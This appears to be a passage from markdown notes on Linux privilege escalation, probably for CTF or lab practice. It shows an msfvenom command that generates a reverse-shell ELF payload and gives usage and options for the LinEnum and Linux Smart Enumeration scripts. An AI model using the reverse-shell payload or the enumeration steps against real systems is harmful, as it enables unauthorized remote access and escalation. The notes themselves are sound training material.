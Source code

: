 
##### 4.2 msfvenom

- ALternatively, if a reverse shell  is preferred, `msfvenom` can be used to generate an executable (`.elf`) file:

```bash
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```
- This reverse shell can be caught using `netcat` or Metasploit's own 'multi/handler'.


#### 5 Privelege Escalation Tools

**Why use tools..?**  
- Tools allow us to automate the reconnaissance that can identify potential privilege escalation
- We use `Linux Smart Enumeration` and `LinEnum`


##### 5.1 Linux Smart Enumeration
General usage:
```bash
$ ./lse.sh
```
```bash
$ ./lse.sh -l 2 -i 
```
`-i` to skip password for current user  


##### 5.2 LinEnum

General usage:
version 0.982
Example: 
```bash 
./LinEnum.sh -s -k keyword -r report -e /tmp/ -t
```
OPTIONS:

- -k Enter keyword
- -e Enter export location
- -t Include thorough (lengthy) tests
- -s Supply current user password to check sudo perms (INSECURE)
- -r Enter report name
- -h Displays this help text

Running with no options = limited scans/no output file

- -e Requires the user enters an output location i.e. /tmp/export. If this location does not exist, it will be created.
- -r Requires the user to enter a report name. The report (.txt file) will be saved to the current working directory.
- -t Performs thorough (slow) tests. Without this switch default 'quick' scans are performed.
- -s Use the current user with supplied password to check for sudo permissions - note this is insecure and only really for CTF use!
- -k An optional switch for which the user can search for a single keyword within many files (documented below).
